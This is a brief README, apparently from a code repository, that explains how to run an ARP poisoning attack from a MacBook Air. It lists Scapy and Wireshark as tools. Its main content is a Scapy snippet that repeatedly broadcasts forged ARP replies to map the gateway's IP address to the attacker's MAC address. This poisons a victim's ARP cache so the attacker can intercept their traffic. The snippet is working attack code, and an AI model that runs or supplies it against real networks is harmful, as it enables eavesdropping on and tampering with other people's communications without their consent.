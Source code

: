 ## This is the instruction of how to apply arp poison attack by using Macbook Air

### Equipment

> Macbook Air 11 macOS Mojave 10.14
> iPhone 8 Plus iOS 13.3
> iPhone 6 iOS 12.4.1

### Prerequisite

> Scapy
> Wireshark is recommended

### The main code is as below

```
#   victim's arp cache has been substituded. The gateway's IP(192.168.0.1) mapped to attack's hardware address(MAC address).
    p1=Ether(dst="ff:ff:ff:ff:ff:ff",src="48:d7:05:c1:d6:63")/ARP(pdst=victimAddr,psrc=gatewayAddr)
    for i in range(6000):
        sendp(p1)
        time.sleep(0.1)
        
```

### reference

> Please refer to [https://blog.csdn.net/qq_38684504/article/details/87955468]
